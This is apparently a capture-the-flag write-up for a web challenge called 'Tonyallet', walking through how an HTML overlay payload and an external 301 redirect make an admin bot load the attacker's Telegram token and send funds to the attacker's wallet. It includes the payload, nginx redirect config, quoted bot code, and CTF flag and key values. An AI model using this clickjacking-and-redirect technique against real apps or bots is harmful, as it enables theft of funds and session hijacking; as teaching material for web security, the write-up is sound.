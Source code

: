 # Tonyallet

- Category: Web / XSS
- Date: September 2024
- Difficulty: medium

## Description
We have a [Telegram Mini App](https://core.telegram.org/bots/webapps) hosted on `https://tonyallet-us.ctf.so` that has functionality to create posts and retrieve them. Posts can be reported from `https://tonyallet-us-report.ctf.so/` by submitting their ID which the admin bot visits later. Our objective is to exploit a XSS to replace the admin bot's displayed wallet address with ours so that it later sends funds to us instead of their address.

![mini app](assets/miniapp.png?raw=true "Telegram Mini App")

### Task
The [provided document](./assets/Tonyallet.pdf) explains that we need our wallet balance to increase in order to get the flag.

By inspecting network requests we can see that when the app fetches `https://tonyallet-us.ctf.so/wallet` with your authorization header, the JSON response looks like this:
```json
{
  "address": "0x82B560E978345544e2e161E4cB09b3fa4c846D65",
  "privateKey": "0xa322cb5832178f77abe8e5906733b062e3f2b43be21b1bfb7f1f7b8ca6fd068f",
  "balance": "0.0",
  "flag": "NO FLAG FOR U"
}
```

### Looking at the bot's code
Let's start backwards by immediately looking at the [provided selenium code](./code/bot.py) to understand precisely what the admin bot does after we report a post. The bot does not use telegram but instead visits `tonyallet-us.ctf.so` directly.

```py
wallet_address = selenium_obj.find_element(By.ID, "walletAddress").text
if not re.match(r"^0x[a-fA-F0-9]{40}$", wallet_address):
  return "Failed to get wallet address"
# send 0.1 ether to the wallet address
os.system(f"cast send --private-key {os.getenv('PRIVATE_KEY')} {wallet_address} --value 0.1ether --rpc-url {os.getenv('RPC_URL')}")
```

This code in the end is of interest because it is sending tokens to `wallet_address` which is obtained from the content of an HTML tag with id `walletAddress`. The HTML page in question is `selenium_obj.get(f"{host}/#tgWebAppData=" + open("tgWebApp.txt").read())` where host is `host = f"https://tonyallet-us.ctf.so"`.

### Looking at the mini app's source

Let's have a look at it's [source](./assets/index.html). The page contains a JavaScript function called [getWallet](./assets/index.html#L127) which is called when it loads.

```javascript
async function getWallet(bypass=false) {
  let localAddress = localStorage.getItem("walletAddress")
  if (localAddress && !bypass) {
    document.getElementById('walletAddress').textContent = localAddress;
    return
  }
	...
```

If we could execute custom JavaScript code on the admin's client-side to set the local storage of key `walletAddress` to ours it would be great but upon further investigation it did not appear to be possible to inject custom JavaScript code. Here it is important to note that localStorage keys are unique to each website. It is also important to note that selenium [starts with a fresh local storage](https://stackoverflow.com/questions/48841127/localstorage-in-selenium-webdriver) each time it runs.

Therefore, we could assume that the first time this page is opened by the bot the `localAddress` is null and so the function would continue executing this code:

```javascript
const response = await fetch(`/wallet`, {
  method: 'GET',
  headers: {
    'Authorization': tg.initData
  }
});
const data = await response.json();
document.getElementById('walletAddress').textContent = data.address;
localStorage.setItem("walletAddress", data.address);
```

`tg.initData` can be considered as a unique token for a telegram account and `https://tonyallet-us.ctf.so/wallet` uses it to send you your corresponding wallet address. By looking at the [bot's code](./code/bot.py#L41) and the [telegram script included in the HTML file](https://telegram.org/js/telegram-web-app.js) it appears that `tg.initData` can be controlled via a URL hashtag parameter called `tgWebAppData`. This means that if could get the bot to browse `https://tonyallet-us.ctf.so/#tgWebAppData=<our tg.initData token>`, then when the bot executes the above code it will receive our address and set it to it's localStorage.

## Exploit

The app is [vulnerable to XSS](./assets/index.html#L177) on `/` but only if you click retrieve post and the bot doesn't do this. Instead, the bot visits `/post?id=<our id>` which returns [this HTML](./assets/post.html). Since that page uses [DOMPurify.sanitize](./assets/post.html#L111) it is theoretically impossible to directly inject any JavaScript there. We are, however, free to put several HTML tags with any kind of CSS. Notice that the bot [clicks](./code/bot.py#L35) at coordinates `(screen width / 2, 10)` in order to hit the back button. Since our goal is to get the bot to browse `https://tonyallet-us.ctf.so/#tgWebAppData=<our tg.initData token>`, we could use this payload:

```html
<div style="position: fixed; top: 0; left: 0; width: 100%; z-index: 1000; font-size: 20px; line-height: 1;">
<a href="https://tonyallet-us.ctf.so/#tgWebAppData=<our token>" style="display: block; margin-top: -10px;">
gogogogogogogogogogogogogogogogogogogogogogogogogogogogogogogogogogo
</a>
</div>
```

This covers the back button with our link that redirects to the URL we specify. [https://webhook.site/](https://webhook.site/) was useful for testing that the bot clicks on it.
![mini app](assets/posts.png?raw=true "Malicious vs normal post")

However, this did not work and you can see why by clicking on our malicious button locally (nothing happens). Since we are redirecting to a hashtag parameter on the same domain, the browser (tested on Firefox) does not reload the page because hashtag parameters are only relevant client-side. In order to trigger a reload, we must redirect to an external page we control which in turn redirects to `https://tonyallet-us.ctf.so/#tgWebAppData=<our tg.initData token>`. A service like [https://tinyurl.com/](https://tinyurl.com/) can likely be used but for this solution a private server with nginx was configured.

```
server {
  listen 443 ssl;
  server_name <redacted>;
	...

  location / {
    return 301 https://tonyallet-us.ctf.so/#tgWebAppData=query_id...;
  }
}
```

`href=` in the HTML payload was changed to point to the server using it's domain. In this way, our server tells browsers via 301 status code to redirect to the `tonyallet-us.ctf.so` URL with our token. It was required to URL encode the token.

After submitting the updated payload, our balance increases and we get the flag from `GET /wallet`.

```json
{
  "address": "0x82B560E978345544e2e161E4cB09b3fa4c846D65",
  "privateKey": "0xa322cb5832178f77abe8e5906733b062e3f2b43be21b1bfb7f1f7b8ca6fd068f",
  "balance": "0.1",
  "flag": "blaz{TGAPP_CAN_BE_HACKED_REALLY_BAD_:P}"
}
```
